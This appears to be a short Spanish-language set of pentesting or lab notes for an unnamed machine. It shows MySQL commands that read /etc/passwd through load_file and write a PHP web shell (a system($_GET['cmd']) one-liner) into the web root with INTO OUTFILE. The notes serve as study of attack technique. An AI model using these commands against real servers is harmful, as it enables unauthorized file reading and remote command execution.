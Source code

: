 
## Máquinas varias

#### Intentando partir desde mysql
```bash
mysql> select load_file('/etc/passwd');
mysql> select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php";

# Leo lo que s epodía leer por el navegador, por aquí a ver is hay algo diferente
mysql> select load_file('/var/www/html/index.html');

# Veo que en uno d elos directorio si me lo deja subir
mysql> select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html//M3t4LL1c@/shell.php";
```